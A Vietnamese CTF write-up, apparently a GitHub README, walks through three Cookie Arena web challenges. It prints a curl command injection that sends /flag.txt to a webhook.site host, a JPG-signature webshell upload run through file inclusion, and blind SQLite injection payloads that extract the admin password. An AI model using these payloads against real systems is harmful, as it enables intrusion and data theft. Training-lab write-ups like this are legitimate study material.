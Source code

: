 # CTF_cookie-Arena
## Challenges CTF cookie arena with me

## Mục lục
- [Baby Crawler](#1-Baby-Crawler)
- [Baby File Inclusion](#2-Baby-File-Inclusion)
- [Simple Blind SQL Injection](#3-Simple-Blind-SQL-Injection)

## 1 Baby Crawler

Writeup đầu tiên trong CTF_cookie-Arena này là challenge Baby Crawler với mình thì bài này không quá khó nhưng cũng làm tốn kha khá thời gian của mình và bắt đầu nào :>>
truy cập vào đường dẫn thử thách ta có giao diện chính của web với nút CRAWL và 1 đường link đến https://vnexpress.net/viet-nam-xuat-khau-sang-my-latinh-mot-ty-usd-moi-thang-4541275.html khi bấm nút CRAWL web sẽ hiển thị 1 đường dẫn Cached File: như hình sau:
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/30ae0633-365c-4d7a-84cf-a44bf2f39971)
truy cập vào thì nó sẽ dẫn ta đến trang chưa nội dung của bài báo. Sau khi tìm hiểu chức năng cũng như cách hoạt động của web mình thử view-source xem có kiếm được source code hoặc đường dẫn ẩn nào không thì đập vào mắt mình là /?debug
![Screenshot 2024-06-12 000915](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/2764819a-475b-4c8e-9deb-520bf6969fcb) 
sau khi truy cập ?debug thì mình đã có được source của bài này (phần source mình có để ở Baby Crawler các bạn có thể xem)

Sau khi đọc source code thì mình đã chú ý đến đoạn sau

![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/13979d67-2497-46a2-b74e-03602dd6c598)

Có thê thấy trong code biến $url là untrusted data được đưa vào 1 hàm nguy hiểm như shell_exec xử lý. Đến đây việc còn lại là khai thác lỗi  Command Injection và làm sao để khai thác nó. Để thao túng được biến url ta phải dảm bảo 2 điều kiện 
1 là bắt đầu là http do strpos sẽ kiễm tra chuỗi nhập có bắt đầu là http không 
2 là được filter bởi hàm **escapeshellcmd** thì trong PHP escapeshellcmd sẽ thoát khỏi các kí tự (& # ; `| * ? ~ < > ^ ( ) [ ] { } $ \ , \ x0A and \xFF . ' và ")

Nhận thấy curl được nối chuỗi với phần escapeshellcmd($url) mình đã thử nhiều cách nhưng vẫn không thu được kêt quả gì do vướng escapeshellcmd . Bỏ qua hướng tiếp cận bằng && ; thì mình thử tìm hiểu coi curl có thể làm được gì thì mình đã tìm ra được curl có cho phép mình gửi nội dung của file tới một server ngoài bằng -F (ex: curl -F "file=@/path/to/example.txt" https://api.example.com/upload). Tìm ra hướng đi mình bắt đầu thử nghiệm nó và server ngoài mình chọn để dùng là webhook.site và thực hiện input sau: https://webhook.site/1560d9e5-0482-4a96-b3d0-d1583a783b90 -F "file=@/flag.txt"
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/f7f80235-6165-4d2b-911d-8740724ab665) và ngay lập tức webhook mình nhận được gói tin
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/5c815677-e450-42f5-89b2-a6818746e1e0) lúc này mình chỉ cần download file chứa flag là xong

* ### 2 Baby File Inclusion

bài thứ 2 trong CTF_cookie-Arena này là challenge Baby File Inclusion
Yêu cầu của thử thách này là làm sao tạo ra được webshell để đọc được file flagxxx.txt trong hệ thống và đây là giao diện của lab gồm button cho mình tìm và tải file từ máy lên và 1 button để upload nó lên 
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/1960da91-d9cf-4b65-8f9a-2ba2b014c243)
mình thử uploads 1 file hình ảnh lên thì mình có được 1 đường dẫn là uploads/download.jpg để xem hình ảnh
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/c3e1bdc5-16f0-4031-8dc8-ef18497cff15)

Tiếp theo mình thử upload 1 file có tên test.txt thì nhận lại thông báo "Sorry, the file extension 'txt' is not allowed"

![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/22bfad3e-6ddd-45ca-a5ed-c19aa8e38266)

từ đó mình có thể đoán ra nó chỉ cho phép gửi file có đuôi là jpg hoặc png . Mình liền thử gửi lại nó qua burp-suite giữ lại đuôi file là .jpg thay đổi Content-Type sang image/jpeg nhưng sửa lại nội dung là phpinfo(); để xem có được không thì ăn ngay cái thông báo "Sorry, this content type is not allowed"
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/2b017c26-f459-46b3-a112-fd16ad26e276)

hum.... cho các bạn chưa biết thì trong PHP Các loại file khác nhau sẽ được xác định bằng một vài byte đầu tiên của file, gọi là file signature. Nó sẽ đọc các byte đầu tiên của tệp và so sánh chúng với cơ sở dữ liệu chữ ký để xác định loại MIME của tệp nếu khớp thì nó sẽ coi như file đó hợp lệ !!!!!
Có được kiến thức này thì bài lab này sẽ chỉ là 1 cái bánh chờ ta ăn thôi hahaha 
Việc cần làm lúc này là mình chỉ cần google tìm file signature của jpg copy nó vào trước webshell và uploads nó lên thôi (^.^)
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/f40b2ce1-f6a9-4829-a7e1-0eefad759e5b)
Ở đây mình tận dụng lại request lúc đầu xóa phần nội dung chỉ giữ lại cái file signature và chèn webshell "phpinfo()" để test thì đã thấy file haha.jpg được tải lên thành công giờ vào thử uploads/haha.jpg để xem web có chạy shell mà mình up lên không nhé
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/ac339ebc-5658-4b49-936c-7704cb439e31)
kết quả không như mình tính toán nhỉ sau 1 lúc thì mình có để ý đuôi của URL của web có đoạn index.php?page=upload.php vậy nếu mình đổi upload.php sang uploads/haha.jpg thì sao ???
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/16081811-b5be-4fae-9a74-0c419c48e34b)
Vậy là thành công rồi việc bây giờ là đổi shell để đọc được file flagxxx.txt (à mỗi lần up shell nhớ đổi tên file nha tại web sẽ không nhận file nhận lại file đã có ) và đây là cách mình làm
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/16bf265b-b4b7-4dd5-a1ec-703b8e5ec217)
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/ad0d9eff-3445-472a-9b92-b14994e3d9c1)
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/682f5f4e-f597-4f2e-97de-866d89d9670c)
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/dc223cf1-c094-41d3-84ab-222f55609eec)


* ### 3 Simple Blind SQL Injection

Đến với bài 3 với yêu cầu là login account: admin ở /login để lấy flag và được biết password chỉ chứa các kí tự [a-z0-9_] truy cập vào lab tao có 1 trang sau 
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/eca518e5-11a8-47bb-82b4-1d545455c2e9)

như hình thì ta có 1 vị trí để nhập và kiễm tra UID có tồn tại hay không nếu có thì sẽ thông báo "User uid exixsts" nếu không "User uid not Found!" mình thử nhập UID với admin và adminn
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/12f12632-e06a-4bd0-9f63-86a8d82fda37)
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/86274607-dba5-4feb-8205-c0b462ffa58b)


sau khi hiểu chức năng của uid mình thử " và ' xem có error xảy ra không thì với dấu nháy kép (") không xảy ra gì nhưng nháy đơn (') web hiện lên error. Trong error ta biết web sử đụng sqlite3 và chú ý đến dòng nrows = 1 if query_db("SELECT * FROM users WHERE uid ='%s'" % uid, one=True) else 0 ở đây t biết query lấy trực tiếp biện uid để chèn trực tiếp vào query sql và chắc chắn nó bị sql injection kết hợp với dữ kiện web chỉ trả về "User uid exixsts" nếu không "User uid not Found!" nên mình biết đây là boolean SQL Injection

![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/6a991447-a3fc-4703-9031-63533e0bb238)

Sau khi xác định là boolean SQL Injection bây giờ mình sẽ tiến hành thực hiện khai thác nó với các bước sau:
  - Đầu tiên mình cần xác định table nơi chứa account và password của admin nhưng từ truy vấn "SELECT * FROM users WHERE uid ='%s'" mình có thể xác định luôn table tên users và 1 column tên uid
  - bước hai minh cần xác định số column trong table users ở đây mình viết ra 1 query hoàn chỉnh sau: SELECT * FROM users WHERE uid = 'admin' AND ((SELECT COUNT(*) FROM pragma_table_info('users')) > 1) -- rồi lấy admin' AND ((SELECT COUNT(*) FROM pragma_table_info('users')) > 1) -- để chèn vào phần uid ở đây mình bắt đầu thử từ 1 và tăng lên từ từ vì biết chắc nó có ít nhất 2 column 1 cái là uid chứa account sau khi thử với 3 thì kết quả trả not found => table 'users' này có 3 column
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/98e725d3-ddd0-4dc1-ba20-0db0ebb60f1f)
  - bước ba xác định số kí tự trong tên column với query sau: SELECT * FROM users WHERE uid = 'admin' AND ((SELECT LENGTH(name) FROM pragma_table_info('users') LIMIT 1 OFFSET 0) > 1) -- tương tự như bước 2 và lặp lại nhưng thay OFFSET bằng 1 để bỏ qua column đầu tiên mới check => tìm ra số kí tự của cả 3 column là 3 kí tự (trong đó 1 column là uid )
  - bước bốn tìm tên column chứa password với query sau : SELECT * FROM users WHERE uid = 'admin' AND (SELECT (SUBSTR((SELECT name FROM pragma_table_info('users') LIMIT 1 OFFSET 1), 1, 1) = 'a') = 1 )-- vì số kí trong tên column là 3 nên mình chỉ cần brute force kí tự thôi có thể dùng intruder trong burp-suite nhưng mình sẽ viết script python để thực hiện nhanh hơn (nghèo không có tìn mua bản pro T_T) script brute-foce_column.py mình có để file các bạn có thể tham khảo chạy xong thì mình được có được tên của 3 colun là idx,uid,upw như hình
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/f2f2bb6a-1e80-480a-ae6b-9b6badb50842)
  - bước năm thực hiện brute-force truy vấn mật khẩu của admin thôi nhưng trước hết thì cứ viết query trước đã : SELECT * FROM users WHERE uid = 'admin' AND (SELECT (SUBSTR((SELECT upw FROM users WHERE uid = 'admin'),1,1) = 'a') = 1 ) -- bây giờ giống như bước bốn mình sẽ sửa lại script đã viết trước đó (phần script sửa tên brute-foce_password.py) chạy script thì ra liền password nha login là có flag
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/7418e55e-e36c-450b-ad22-6204e06085db)





